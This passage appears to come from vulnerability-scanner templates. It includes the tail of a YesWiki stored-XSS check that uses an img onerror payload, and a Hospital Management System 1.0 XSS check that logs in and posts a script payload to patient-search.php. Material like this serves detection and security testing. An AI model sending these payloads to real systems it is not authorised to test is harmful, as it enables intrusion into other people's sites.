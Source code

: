 ```
1
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="id_typeannonce"

2
------WebKitFormBoundaryT8dS2PT0WtxACLyu--

```
### Step - 2
```
GET /?BazaR&vue=consulter HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. contains(all_headers_2, 'text/html') && contains(all_headers_2, 'YesWiki')
    2. status_code_2 == 200
    3. contains(body_2, '>\<img src=x onerror=console.log(123);>')
- condition - and

---
# Hospital Management System 1.0 - Cross-Site Scripting
## Description
- Hospital Management System 1.0 contains a cross-site scripting vulnerability via the searchdata parameter in patient-search.php.

- severity - high
- tags - hms,hospital,cms,xss,authenticated
## Requests
### Step - 1
```
POST /hms/admin/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}&submit=

```
### Step - 2
```
POST /hms/admin/patient-search.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

searchdata=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&search=

```
### Matchers
